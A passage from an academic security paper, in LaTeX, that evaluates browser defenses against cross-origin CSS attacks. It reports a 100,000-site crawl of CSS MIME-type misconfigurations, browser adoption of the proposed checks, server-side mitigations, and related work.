
\subsubsection{Experiment}
To evaluate the compatibility of our proposed defense of stricter cross-origin CSS loading, we conducted an experiment to measure how often web servers fail to provide the correct MIME type for CSS files and whether these CSS files are syntactically well-formed when loaded cross-origin.

\paragraph{Design}
To measure how often web servers fail to provide the correct MIME type for CSS files, we collected metrics by crawling the top 100,000 web sites ranked by Alexa~\cite{alexa} and scanned through all of the style sheet resources in their home pages. We are interested in all cross-origin CSS loads including using HTML link tags and CSS import directives. Furthermore, some web sites dynamically add CSS links using JavaScript while the page loads. To achieve a more thorough scan for these CSS loads, we directly rendered these web pages with an instrumented WebKit browser while recording information of all CSS loads until the web page finishes loading.

\begin{table*}
\centering
\begin{tabular}{|c|c|c|c|c|c|c|} \hline
\multicolumn{2}{|c|}{}&\multicolumn{2}{|c|}{Valid MIME}&\multicolumn{3}{|c|}{Invalid MIME}\\
\cline{3-7}\multicolumn{2}{|c|}{}&Well-Formed&Malformed&Well-Formed&Malformed&HTTP Error\\ \hline
Same-Origin&Standards Mode&178,017&506&424&1&1,497\\ 
\cline{2-7}&Quirks Mode&24,445&332&304&59&466\\ \hline
Cross-Origin&Standards Mode&47,345&104&147&0&347\\
\cline{2-7}&Quirks Mode&5,891&57&74&0&53\\ \hline
\end{tabular}
\caption{Categorization of CSS references for the top 100,000 sites.}
\label{table:results}
\end{table*}

\paragraph{Results}
From the top 100,000 web sites, our crawler logged a total of 260,069 CSS references, including 215,632 from HTML link tags and 44,437 from CSS import directives. These references include 206,051 same-origin resources and 54,018 cross-origin resources. We did not include data for sites that were unreachable during our evaluation, due to unresponding servers or domain name errors. Our results are shown in Table~\ref{table:results}.

\begin{table}
\centering
\begin{tabular}{|c|c|c|} \hline
Content-Type&Number of CSS files\\ \hline
\texttt{text/html}&715 (70.86\%)\\ \hline
Empty &178 (17.64\%)\\ \hline
\texttt{text/plain}&45 (4.46\%)\\ \hline
\texttt{application/octet-stream}&29 (2.87\%)\\ \hline
Other MIME types&42 (4.16\%)\\
\hline\end{tabular}
\caption{Common misconfigured MIME types for CSS files in top 100,000 Sites.}
\label{table:MIME}
\end{table}

In the top 100,000 sites, we logged a total of 3,372 CSS references that did not specify the \verb|text/css| MIME type in the HTTP Content-Type response header. There were 2,363 of these CSS resources that returned a HTTP error status code, e.g. 400 Bad Request, 403 Forbidden, 404 Not Found, 500 Internal Server Error, 502 Bad Gateway or 503 Service Temporarily Unavailable. Note that these resources are unreachable, thus blocking them would have no affect to the rendering of the page. Excluding the responses with HTTP errors, there were 1,009 CSS resources that provided misconfigured Content-Type headers. The common misconfigured MIME types for CSS files in the top 100,000 sites are shown in Table~\ref{table:MIME}. There were as many as 715 CSS references that retrieved HTTP responses with the \verb|text/html| MIME type. Some of these \texttt{text/html} responses were less serious conditions, where the specified URL no longer exists and was redirected by servers to a landing page with HTTP status code 200. For HTTP responses with a missing Content-Type header, we considered them identical as setting the MIME type to an empty string. We logged a total of 178 CSS resources with an empty MIME type. Our crawler also collected 42 CSS resources with other less-frequent MIME types, e.g. \verb|application/x-javascript|. 

By checking the DTD of the referring document, our crawler logged whether the standards mode or quirks mode was triggered for parsing each CSS resource. We observed that standards mode was widely used on 68,378 web pages, where we found 2,416 CSS resources that had invalid MIME types that were already blocked by standards mode, as mentioned in Section~\ref{sec:proposal}. On web pages rendered in quirks mode, we found 72 cross-origin CSS resources with invalid MIME types (excluding HTTP errors) that would be blocked by our strict approach proposal.

Our crawler reported that 1,059 (0.41\%) CSS resources were syntactically malformed, in which the browser failed to parse a valid CSS construct at the beginning of the CSS file. One of the common syntax errors is to start the CSS file with an HTML style tag. None of the cross-origin CSS resources with invalid MIME types were syntactically malformed.

%We ran a scan across the top 500,000 URLs looking for cross-origin loads of CSS with an invalid MIME type. Valid MIME types are defined as text/css, application/x-unknown-content-type, and empty. There were a total of 140 URLs detected that referenced cross-origin CSS with broken MIME types. There were 60 URLs that would be considered as broken, including 13 with text/plain, 15 with text/html, 31 with application/css, and 1 with application/x-pointplus. If we apply the heuristics of the conservative approach, only one URL that served text/html MIME would fail to load, which was severely broken because it had valid CSS rules after a style tag.

\paragraph{Discussion}
In the top 100,000 web sites, we observed a total of 1,009 CSS resources that didn't serve the correct MIME type (excluding responses with HTTP errors). Most misconfigured servers incorrectly send the \texttt{text/html} MIME type regardless of the served content type. We also observed that 68.38\% sites trigger standards mode, which already blocks 2,416 CSS resources with invalid MIME types.

Based on our evaluation results, deploying the strict approach of our proposal would block a total of 74 cross-origin CSS resources on 62 (0.06\%) of the top 100,000 sites. In some cases, the server was redirecting a request for an unavailable CSS file to an HTML landing page, thus the impact of blocking these CSS loads is less serious. Although this fraction may seem low, browser vendors have historically been reluctant to deploy changes that break popular web sites. 

In our results, none of the cross-origin CSS files with invalid MIME types were syntactically malformed. Thus, applying the conservative approach did not induce false positives and would not affect the rendering of any of the top 100,000 sites. We suggest that the conservative approach is practical solution for browser vendors because it maximizes web site compatibility while defending the cross-origin CSS attack.

Due to practical limitations of our automated scanning, all of the tested links were unauthenticated. It is possible that more sites will be broken after logging in.

\begin{table*}
\centering
\begin{tabular}{|c|c|c|c|c|c|} \hline
Content-Type&Firefox 3.6&Firefox 3.7&Opera&Safari&Chrome\\ \hline
Empty&&&C&&\\ \hline
\texttt{application/x-unknown-content-type}&&&C&&\\ \hline
Bogus&&&C&C&C \\ \hline
\texttt{*/*}&&&C&C&C \\ \hline
\texttt{text/html}&C&S&C&C&C\\ \hline
\texttt{text/plain}&C&S&C&C&C\\ \hline
\texttt{application/octet-stream}&C&S&C&C&C\\ \hline
Other MIME types&C&S&C&C&C\\
%excluding \texttt{text/css}&&&&\\
\hline\end{tabular}
\caption{Adoption of proposal in major browsers. The `S' and `C' represent the strict approach and conservative approach, respectively.}
\label{table:adoption}
\end{table*}

\subsubsection{Adoption}
Our proposal have been adopted by several major browsers, including Google Chrome, Opera, Safari and Firefox. Our proposal requires no changes to existing web servers and only modifies the browser. We implemented a patch for the conservative approach of cross-origin CSS loading in WebKit, the open source web browser engine component integrated in Safari and Google Chrome. The WebKit patch was deployed first in Google Chrome~4.0.249.78, and also accepted in Safari~4.0.5. Note that the cross-origin CSS raw text leak is tightened by this patch because read access to cross-origin CSS raw text is limited to well-formed imports. Inspired by our WebKit patch, the exact same heuristic of our proposal was adopted in Opera~10.10. We implemented both the strict approach and the conservative approach for cross-origin CSS loading in Mozilla Firefox. Mozilla has deployed the conservative approach in Firefox~3.6.5 and the strict approach in alpha builds of Firefox~3.7.

The interpretation of valid MIME types for cross-origin CSS files differs slightly on each browser, as shown in Table~\ref{table:adoption}. In addition to the \texttt{text/css} MIME type, Firefox and WebKit-based browsers also accept files with an empty MIME type or the \texttt{application/x-unknown-content-type} MIME type, in which some servers attempt to trigger the browser's content-sniffing algorithm. We noticed that Firefox treats some unknown or bogus MIME types (strings that lack a slash e.g. \texttt{text}) as valid MIME types for CSS files. Other internet media types (e.g. \texttt{image/gif}) should be invalid for CSS files, with the exception of \texttt{text/css}.

\subsubsection{Missing Content Types}

One remaining issue that is not yet addressed by our proposal is that some web
applications send a Content-Type of \verb|application/x-unknown-content|
or omit the Content-Type header entirely. 
This scenario is not very common for HTML documents but we did see 178 CSS resources that lacked a Content-Type header in our experiment. Most browsers,
with the notable exception of Opera, do attempt to load cross-origin
style sheets with an empty MIME type even in standards mode. 
This behavior could open up a server
to attack if it fails to set a Content-Type header on its HTML documents. We
have not yet observed any web servers in the wild that are affected by this
vulnerability, but browsers may wish to follow Opera's lead and block such
style sheets when loaded across origins. In any case, we recommend that web
applications always properly set a Content-Type header.

\subsection{Other Client-Side Approaches}
There are other defensive approaches that can be deployed in browsers without modifying web servers including globally blocking cookies and tightening DOM access.  We argue that all of these approaches could either be circumvented with a variation of the attack, or would significantly reduce web site compatibility.

\paragraph{Block Cookies}
Browsers give users the option of disabling cookies
and always send anonymous requests, thus can prevent web attackers from
stealing content on any cookie-authenticated URLs. Additionally, some browsers
restrict cross-origin resources from setting or reading cookies (``third-party
cookie blocking''). However, some sites use session cookies for cross-origin
resources, which is why browser third-party cookie blocking typically only
blocks incoming cookies, rather than outbound
cookies~\cite{jackson06thirdpartycookies}. This third-party cookie blocking
behavior is insufficient to stop the cross-origin CSS attack, since the
attacker can still hijack the user's existing authenticated session.

\paragraph{Block JavaScript Style APIs}
The same-origin policy for DOM access restricts the ability for JavaScript to
access DOM properties and methods across domains. To prevent the cross-origin
CSS attack, browsers could block DOM access to style sheet text and computed
styles loaded from cross-origin style sheets, at least when the CSS file is
malformed or has incorrect MIME type. This restriction would stop some
attacks, but the attacker could still bypass this limitation with
\texttt{background-image} property injection technique described in
Section~\ref{sec:extraction}.

%\paragraph{Stricter CSS Parsing}
%CSS parsers are tolerant of syntax errors and will resume parsing after syntax errors. The cross-origin CSS attack could be mitigated if the browser's CSS parser rejected the style sheet on the first syntax error, as it does with script libraries. However, this approach would require all web developers to strictly write well formed CSS, and would immediately break many existing web sites.

\subsection{Server-side Mitigations}
In this section, we consider approaches that can be adopted by web servers
without requiring changes to current browsers. Web applications may wish to
adopt such mitigations to protect users of browsers that have not yet adopted
our proposed defenses, such as Internet Explorer.

\paragraph{Newlines}
In the CSS specification, strings and URLs cannot directly contain newlines.
In most browsers, newlines will break CSS parsing, preventing the attacker from loading the cross-origin data.
Thus, web applications that surround potential injection points with
newlines may interfere the cross-origin CSS attack.
However, the Internet Explorer allows newlines within CSS
property strings, making newlines an ineffective server-side mitigation for this browser.

\paragraph{HTML encoding}
Another mitigation for web applications would be to HTML-encode potential attack characters in user-controlled content. For example, the CSS parsing for a string would break if it was not written in quotes. However, the attacker could bypass this barrier by injecting the \texttt{background-image} property which allows embedding strings within the \texttt{url()} notation without using quotes. We expect that escaping curly braces using \verb|&#123;| and \verb|&#125;| would be more successful; however most HTML encoding utility functions such as \verb|html_encode| in Ruby and \verb|htmlentities| in PHP refuse to encode these characters.

\paragraph{Declare Character Set Using HTTP Headers}
We observe that only 584 of the top 1,000 web sites declared a character set
for their home pages using the HTTP Content-Type header. A missing character set
may allow attacker to bypass encoding of quotes and curly braces by forcing
the UTF-7 character set, as described in Section~\ref{sec:escapes}. We
recommend that web applications always set document character sets using the HTTP Content-Type header.

\paragraph{Don't Use Ambient Authentication}
A more effective server-side mitigation is to avoid the use of ambient authentication, including HTTP authentication and session cookies. One solution is the web-key authentication scheme~\cite{webkey} which explicitly embeds user permissions in URLs without using cookies for authentication. This approach can mitigate the attack since the attacker does not know the unguessable URL.

\section{Related Work} \label{sec:relatedwork}
In this section, we review current browser defense techniques that are used to
defend against similar attacks: content-sniffing XSS and JavaScript hijacking.
We also consider recent research proposals for secure web browsers and their
protection against the cross-origin CSS attack.

\subsection{Content-Sniffing XSS Defenses}
In a content-sniffing XSS attack, the attacker uploads a crafted chameleon
document that conforms to a benign file format (e.g. PostScript) to an honest
web site and causes the victim user's browser to treat the file as HTML and
renders the attacker's evil page in the honest site's domain. Such
vulnerabilities are caused by discrepancies between the browser's
content-sniffing algorithm and the web site's upload filter. A secure
content-sniffing algorithm~\cite{securecontentsniffing} was proposed to
protect web sites from this attack by avoiding privilege escalation and using
prefix-disjoint signatures. The \texttt{X-Content-Type-Options}
header~\cite{nosniff} proposed by Microsoft allows web sites to opt-out of
MIME sniffing in supporting browsers by specifying the \texttt{nosniff}
directive in the HTTP response header. Neither the content-sniffing algorithm
nor the \texttt{nosniff} directive are triggered for loading style sheets,
thus both approaches do not prevent the cross-origin CSS attack.

\subsection{JavaScript Hijacking Defenses}
JavaScript Hijacking~\cite{jshijacking} is a vulnerability that allows the
attacker to steal sensitive data from an honest web site that uses JavaScript
as data transport format, such as JavaScript Object Notation (JSON) messages.
Since the browser security model allows importing scripts from a different
domain, the attacker can use a script tag in their evil page to include the
target JavaScript object. One solution is to prevent direct
execution of the responses by prefixing each JavaScript object with a
\texttt{while(1);} statement. The malicious page using script tag will execute
the infinite loop while the legitimate client application can modify the
response before executing it. Servers can also mitigate the attack by responding only to HTTP POST requests because the script tag always uses GET requests to load external libraries. Another defense approach is to include secret tokens in every legitimate request, which can not be forged by the attacker.
This approach may also be used in defense of the cross-origin
CSS attack, but puts the burden on web developers to implement secure
applications.

\subsection{OP Browser}
The OP web browser~\cite{op-browser} uses sandboxing techniques to isolate and
contain failures in browser components. Because OP attaches cookies to
cross-origin network requests just like any other browser, its architecture
does not provide any automatic protection against cross-origin CSS attacks.
However, the OP browser does maintain a detailed security audit log that could
be used by forensics experts to identify the site where the attack originated.

\subsection{Gazelle Browser}
The Gazelle browser~\cite{gazelle} is proposed as a secure web browser that exclusively controls resource protection and sharing across web sites, or principals, as a multi-principal OS. In their architecture, all cross-principal communication are explicitly mediated by the browser kernel to prevent cross-origin attacks. Cross-origin resources are protected and only retrieved if the content is a script or a style sheet, based on the Content-Type header of the HTTP response. Gazelle provides the same protection against cross-origin CSS attacks as the strict approach, at the cost of site incompatibility. From our compatibility evaluation results, the strict approach would affect the rendering of page styles on 62 of the top 100,000 web sites.

\subsection{SOMA}
The Same Origin Mutual Approval (SOMA) policy~\cite{soma} restricts communication between origins by requiring mutual approval between a web page's originating server and other servers across origins. In the SOMA system, each originating web site provides a manifest file that contains a whitelist of origins for outbound requests, enforced in the browser. On the other side, remote servers will only serve its contents to requests that originated from their list of approved domains. This design prevents leaking confidential data to unapproved sites and mitigates the cross-origin CSS attack. However, the negotiation scheme costs additional round-trip requests and require modifications to the participating web sites and browsers.

\section{Conclusions} \label{sec:conclusion}
In this paper, we presented two defense approaches for cross-origin CSS attacks. The strict approach is based solely on MIME type
checking, while the conservative approach uses the CSS parser to
address web site compatibility issues. We evaluated the compatibility of our
proposed solution over the top 100,000 web sites. Without relying on web site
modifications, the conservative approach completely mitigates the attack while
maximizing site compatibility. We found that common server misconfigurations
introduced false positives in the strict approach and would cause 0.06\%
sites to render incorrectly. We recommend that web administrators should
properly configure servers to specify the correct MIME type and character set in HTTP Content-Type headers to avoid false
positives. Our proposal has been adopted in several major browsers, including
Firefox, Google Chrome, Safari and Opera.

\section*{Acknowledgements}

We thank Dave Hyatt, Sam Weinig, Maciej Stachowiak, and Adam Barth of the
WebKit project and David Baron and Boris Zbarsky of Mozilla for reviewing our implementations of cross-origin CSS defenses.

\bibliographystyle{abbrv}
\bibliography{css}

\end{document}
